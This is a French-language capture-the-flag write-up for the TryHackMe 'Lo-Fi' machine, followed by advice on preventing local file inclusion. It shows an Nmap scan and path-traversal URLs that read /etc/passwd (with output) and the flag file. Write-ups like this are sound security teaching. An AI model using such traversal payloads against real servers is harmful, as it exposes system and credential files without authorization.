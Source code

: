 # 📌 Write Up : Lo-Fi TryHackMe (FR)  

## 🖥️ Informations

- **Nom de la machine** : Lo-Fi
- **Plateforme** : TryHackMe
- **Difficulté** : Facile
- **Type** : Web Exploitation - LFI (Local File Inclusion)

---

## 🏁 Objectifs

L'objectif de cette machine est d'exploiter une vulnérabilité **LFI (Local File Inclusion)** pour récupérer des fichiers sensibles sur le serveur et capturer le flag.

---

## 🔍 1. Scan et Reconnaissance

On commence par un scan des ports pour voir quels services sont accessibles.

### **Scan Nmap**

```bash
nmap -sC -sV -T4 -p- <IP_de_la_machine>
```

🔎 **Résultat :** Le site web est accessible via HTTP sur le port **80**.

---

## 🌐 2. Analyse du site web

Nous visitons la page principale et analysons l'URL. Nous remarquons que chaque page utilise un paramètre `page`, par exemple :

```
http://lo-fi.thm/?page=relax.php
```

Cela suggère que le site **inclut dynamiquement des fichiers PHP**.

---

## 💥 3. Exploitation - Local File Inclusion (LFI)

Nous testons si la LFI est possible en tentant d'inclure le fichier `/etc/passwd`.

### **Test LFI**

Nous modifions l'URL comme suit :

```
http://lo-fi.thm/?page=../../../../etc/passwd
```

🔎 **Résultat :** Le fichier `/etc/passwd` est affiché, confirmant la vulnérabilité !

Extrait du fichier :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
...
```

---

## 🏆 4. Récupération du Flag

Maintenant que nous avons confirmé la LFI, nous recherchons directement le fichier `flag.txt` :

```
http://lo-fi.thm/?page=../../../../flag.txt
```

🎉 **Flag récupéré avec succès !**

---

## 🔐 5. Protection contre la LFI

Pour éviter ce type de vulnérabilité, voici quelques bonnes pratiques :

- **Utiliser des chemins absolus** et éviter d'inclure des fichiers basés sur l'entrée utilisateur.
- **Restreindre l'accès aux fichiers sensibles** (ex: via des permissions ou un `.htaccess`).
- **Filtrer les entrées** pour empêcher les séquences `../` qui permettent de remonter dans les dossiers.
- **Désactiver `allow_url_include` et `allow_url_fopen`** dans `php.ini`.

---

## 🎯 Conclusion

La machine "Lo-Fi" illustre bien la dangerosité des failles LFI et leur exploitation. En environnement réel, cette vulnérabilité peut mener à l'exposition de données critiques et même à une exécution de code si combinée à d'autres techniques comme le **Log Poisoning**.

---

✅ **TryHackMe - Lo-Fi complété avec succès !** 🚀


